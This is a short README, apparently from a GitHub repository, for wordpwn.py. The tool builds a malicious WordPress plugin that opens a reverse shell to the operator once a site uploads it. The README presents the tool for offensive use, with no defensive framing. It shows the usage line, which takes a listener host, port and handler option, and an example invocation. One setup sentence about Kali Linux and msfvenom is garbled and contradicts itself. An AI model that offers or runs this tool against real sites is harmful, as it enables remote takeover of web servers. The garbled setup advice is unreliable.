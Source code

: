 # malicious-wordpress-plugin
Simply generates a wordpress plugin that will grant you a reverse shell once uploaded. I recommend don't installing Kali Linux, as msfvenom is not used to generate the payload.

#### Usage Example
```sh
root@wetw0rk:~# python wordpwn.py 
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \ 
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

